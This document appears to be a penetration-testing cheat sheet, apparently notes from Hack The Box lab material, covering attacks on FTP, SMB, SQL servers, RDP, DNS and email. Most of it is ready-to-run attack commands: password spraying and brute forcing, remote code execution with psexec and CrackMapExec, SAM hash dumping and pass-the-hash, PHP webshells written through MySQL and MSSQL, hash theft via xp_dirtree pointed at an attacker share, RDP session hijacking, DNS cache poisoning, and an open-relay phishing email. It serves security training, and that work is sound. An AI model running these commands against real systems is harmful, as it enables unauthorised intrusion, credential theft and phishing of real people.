



# FTP

## Enumeration

### Nmap

**Note:** `Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) Nmap script which checks if a FTP server allows anonymous logins.

```
sudo nmap -sC -sV -p 21 192.168.2.142 
```

## **Misconfigurations**

### **Anonymous Login**

```
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:<blank>
```

## **Protocol Specifics Attacks**

### **Brute Forcing with Medusa**

```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

### Port Scanning using FTP Bounce Attack with Nmap

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

# SMB

## Enumeration

### Nmap

```
sudo nmap 10.129.14.128 -sV -sC -p139,445
```

## **Misconfigurations**

### Null Session with smbclient to list shares

```
smbclient -N -L //10.129.14.128
```

### Null Session with smbmap to list shares

```
smbmap -H 10.129.14.128
```

### Null Session with smbmap to browse the directories

```
smbmap -H 10.129.14.128 -r notes
```

### Null Session with smbmap to READ/WRITE into a Share

**READ**

```
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

**WRITE**

```
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

### Null Session with rpcclient to gather information

```
rpcclient -U'%' 10.10.110.17
```

### Null Session with enum4linux-ng to gather information

```
./enum4linux-ng.py 10.10.11.45 -A -C
```

## **Protocol Specifics Attacks**

### Brute Force & Password Spraying with CrackMapExec

```
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

**Note**: By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found

### Remote Code Execution Using Impacket-PsExec

```
impacket-psexec administrator:'Password123!'@10.10.110.17
```

**Note**: The same options apply to `impacket-smbexec` and `impacket-atexec`.

### Remote Code Execution Using CrackMapExec

```
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

### **Enumerating Logged-on Users with CrackMapExec**

```
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

### **Extract Hashes from SAM Database with CrackMapExec**

```
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

### **Pass-the-Hash (PtH) with CrackMapExec**

```
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

# SQL

## Enumeration

**MSSQL**   

`TCP/1433`  

`UDP/1434`

`TCP/2433` - Hidden Mode

**MySQL**  

`TCP/3306`.

### **Banner Grabbing with Nmap**

```
nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Misconfigurations

Misconfigured authentication in SQL Server can let us access the service without credentials if anonymous access is enabled, a user without a password is configured, or any user, group, or machine is allowed to access the SQL Server.

## **Protocol Specific Attacks**

### Connecting to the MSSQL Server using sqlcmd

```
C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

We can use the parameters `-y` and `-Y` for better looking output

### Connecting to the MSSQL Server using sqsh (Linux)

```
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

When using Windows Authentication, we need to specify the domain name or the hostname of the target machine. If we don't specify a domain or hostname, it will assume SQL Authentication and authenticate against the users created in the SQL Server. Instead, if we define the domain or 
hostname, it will use Windows Authentication. If we are targetting a local account, we can use SERVERNAME\\accountname or .\\accountname. 

### Connecting to the MSSQL Server using Impacket-mssqlclient (Linux)

```
mssqlclient.py -p 1433 julio@10.129.203.7 
```

### SQL Syntax Commands

**MySQL**

```
SHOW DATABASES;                  # Show Databases
USE htbusers;                    # Use a Database 
SHOW TABLES;                     # Show tables
SELECT * FROM users;             # Show data from table users;
```

**MSSQL (sqlcmd)**

```
SELECT name FROM master.dbo.sysdatabases                   # Show Databases
USE htbusers                                               # Use a Database
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES  # Show tables
SELECT * FROM users                                        # Show data from table users
```

If we use `sqlcmd`, we will need to use `GO` after our query to execute the SQL syntax.

### **Execute Commands**

**Enable** **xp_cmdshell**

```
-- To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.

RECONFIGURE
GO

-- To enable the feature.

EXECUTE sp_configure 'xp_cmdshell', 1
GO

-- To update the currently configured value for this feature.

RECONFIGURE
GO

EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

**Executing commands using xp_cmdshell**

```
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

### **Write Local Files**

**MySQL - Write Local Files**

```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

**MySQL - secure_file_priv**

secure_file_priv may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and
export operations to work only with files in that directory. The
directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operation

**Example**

```
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

Variable secure_file_priv is empty, which means we can read and write data using MySQL

**MSSQL - Enable Ole Automation Procedures to Write Local Files**

```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

**MSSQL - Create a File**

```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### **Read Local Files**

**MSSQL -** **Read Local Files** 

```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

**MySQL - Read Local Files** 

```
 mysql> select LOAD_FILE("/etc/passwd");
+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

### **Capture MSSQL Service Hash**

To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries:

**XP_DIRTREE Hash Stealing**

```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

**XP_SUBDIRS Hash Stealing**

```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

### **Impersonate Existing Users with MSSQL**

**Identify Users that We Can Impersonate**

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

**Verifying our Current User and Role**

```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio

(1 rows affected)

-----------
          0
```

As the returned value `0` indicates, we do not have the sysadmin role,

**(Example) Impersonating the SA User**

```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1
          

EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
          
```

**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that  database. If a user you are trying to impersonate doesn't have access 
to the DB you are connecting to it will present an error. Try to move to  the master DB using `USE master`

### **Communicate with Other Databases with MSSQL**

**Identify linked Servers in MSSQL**

```
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0
```

We have the name of the server and the column `isremote`, where `1` means is a remote server, and `0` is a linked server.

**Send commands to linked servers.**

```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1
(1 rows affected)
```

**Note:** If we need to use quotes in our query to the linked server,  we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

# RDP

## **Misconfigurations**

### Crowbar - RDP Password Spraying

```
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123’
```

### **Hydra - RDP Password Spraying**

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## **Protocol Specific Attacks**

### **RDP Session Hijacking**

**Example**



**Note**: You need to have SYSTEM privileges to execute this attack successfully

**Getting SYSTEM Privileges with PsExec.exe (SysInternals)**

```
PsExec.exe -i -s cmd.exe
```

**Hijack a session using tscon.exe**

```
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

**Getting SYSTEM Privileges and hijack a session with sc.exe**

```
C:\htb> query user
  USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME

> juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
  lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
C:\htb> net start sessionhijack
```

*Note: This method no longer works on Server 2019*

### **RDP Pass-the-Hash (PtH)**

There are a few caveats to this attack:

Restricted Admin Mode, which is disabled by default, should be enabled on the target host;

**Enable Restricted Admin Mode to Allow PtH**

```
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

**Starting RDP Session using Pass The Hash (xfreerdp)**

```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

# DNS

## Enumeration

### **DNS Zone Transfer**

```
dig AXFR @<NAMESERVER> <DOMAIN_NAME>
```

### DNS Enumeration using Fierce

```
fierce --domain zonetransfer.me
```

### **Subdomain Enumeration using Sublist3r**

Enumerates subdomains using many search engines such as Google, Yahoo, Bing,

```
python sublist3r.py -d example.com
```

### **Subdomain Enumeration using Subfinder**

```
subfinder -d inlanefreight.com -v 
```

### Subdomain Enumeration using Subbrute

### Subdomain TakeOver

[GitHub - EdOverflow/can-i-take-over-xyz: "Can I take over XYZ?" — a list of services and how to claim (sub)domains with dangling DNS records.](https://github.com/EdOverflow/can-i-take-over-xyz)

### DNS Cache Poisoning (Local) with Ettercap

1.- Modify `/etc/ettercap/etter.dns` and map the target domain to attacker IP

```
TARGETDOMAIN.com      A   192.168.225.110
*.TARGETDOMAIN.com    A   192.168.225.110
```

**2.- Scan For Host and Select Target**

**Note 1**: You have to choose 2 targets (usually victim_ip and default_gatewayIP)

**Note 2** : This step is optional, if you don’t do it, DNS cache will be poisoned for every host on the network



3.- **Activate** `dns_spoof` **attack by navigating to** `Plugins > Manage Plugins` 


#### Write Up

[DNS Spoofing con Ettercap](https://cibersec.iescampanillas.com/archivos/3671)

# Email Services

## Enumeration

### Use Host to Check MX Records for a given domain

```
host -t MX hackthebox.eu
```

### Use dig to Check MX Records for a given domain

```
dig mx <DOMAIN_NAME> | grep "MX" | grep -v ";"
```

Use host to Check IPv4 Address for MX Record

```
host -t A mail1.inlanefreight.htb.
```

## **Misconfigurations**

### VRFY Command (SMTP)

```
telnet 10.10.110.20 25Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

VRFY root

252 2.0.0 root
```

### **EXPN Command (SMTP)**

`EXPN` is similar to `VRFY`, except that when used with a distribution list, it will list all users on that list.

```
telnet 10.10.110.20 25Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

### **RCPT TO Command (SMTP)**

```
telnet 10.10.110.20 25Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok

RCPT TO:julio
550 5.1.1 julio... User unknown

RCPT TO:kate
550 5.1.1 kate... User unknown

RCPT TO:john
250 2.1.5 john... Recipient ok
```

### **USER Command (POP3)**

```
telnet 10.10.110.20 110
Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

- ERR

USER john

+OK
```

### Enumerate Users with smtp-enum-users

```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

### **Cloud Enumeration - O365 Spray**

*O365spray is a username enumeration and password spraying tool aimed at Microsoft Office 365*

**Validate a domain Name**

```
python3 o365spray.py --validate --domain msplaintext.xyz
```

**Identify Usernames**

```
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz  
```

### Passwords Attacks

**Hydra - Brute-Force**

```
hydra -l juan -p pws.list -f 10.10.110.20 pop3
hydra -l juan@example.com -p pws.list -f 10.10.110.20 pop3
```

**Hydra - Password Spray**

```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

**o365spray -  Password Spay**

```
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

## **Protocol Specifics Attacks**

### **Open Relay**

**Identify Open Relay with Nmap**

```
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

**Abusing Open Relay using Email client - Swaks**

```
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
